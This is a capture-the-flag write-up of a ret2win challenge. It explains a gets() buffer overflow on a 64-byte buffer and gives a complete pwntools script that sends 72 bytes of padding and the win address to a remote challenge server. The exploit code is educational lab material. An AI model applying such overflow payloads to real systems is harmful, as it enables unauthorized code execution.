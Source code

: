 ## Description
![](ret2win1.png)
///caption
///
This challenge is solved by my teammate, `Jin_707`. This writeup is written by `Jin_707`.

## Solution
![](ret2win2.png)
///caption
///
From the challenge title we can see it is a classic Ret2Win challenge. Source code was given too so we can see that there is a buffer of 64 bytes and the vulnerable function gets. `gets()` function is famous because it accepts user input without upper bound, which often leads to bof. So, this challenge is to overflow the buffers and supply it with the win address that prints out the flag.
Reference: [https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win](https://book.hacktricks.xyz/binary-exploitation/stack-overflow/ret2win)

![](ret2win3.png)
///caption
///
Get `win` address with `objdump -d | grep win`.

![](ret2win4.png)
///caption
///
Script with `pwntools`:
```python {frame="none"}
from pwn import *

# Set up the context for the binary
binary_path = './chall'
context.binary = binary_path

# Connect to the remote server
p = remote('3.1.25.253', 9991)

# Find the address of the win function
win_addr = p64(0x00000000004011f6)  # Use p64 for 64-bit address

# Create the payload
# The buffer size is 64 bytes, and the saved RBP is 8 bytes. Hence, we need 72 bytes before we overwrite the return address.
payload = b'A' * 72 + win_addr  # 64 bytes buffer + 8 bytes for saved RBP

# Send the payload
p.sendline(payload)

# Interact with the remote shell
p.interactive()
```